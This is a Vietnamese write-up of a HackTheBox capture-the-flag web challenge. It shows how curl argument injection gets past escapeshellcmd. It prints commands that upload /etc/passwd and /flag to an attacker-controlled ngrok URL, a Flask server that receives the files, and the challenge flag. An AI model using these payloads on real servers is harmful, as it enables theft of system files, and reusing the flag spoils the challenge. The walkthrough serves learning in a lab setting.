 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này có chức năng dùng lệnh __curl trong linux__ nhưng ta không thể thực hiện command injection vì hàm __escapeshellcmd($host)__ đã chặn.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl -X POST -F file=@@/etc/passwd url_attacker__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

ta chạy web để bắt file được gửi về, có thể sử dụng đoạn mã python sau
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
<br /> dùng ngrok để tạo ra điểm truy cập cho chính máy của mình, ta sẽ có đoạn cái đường dẫn url này  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io `

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/web_health_check.zip)
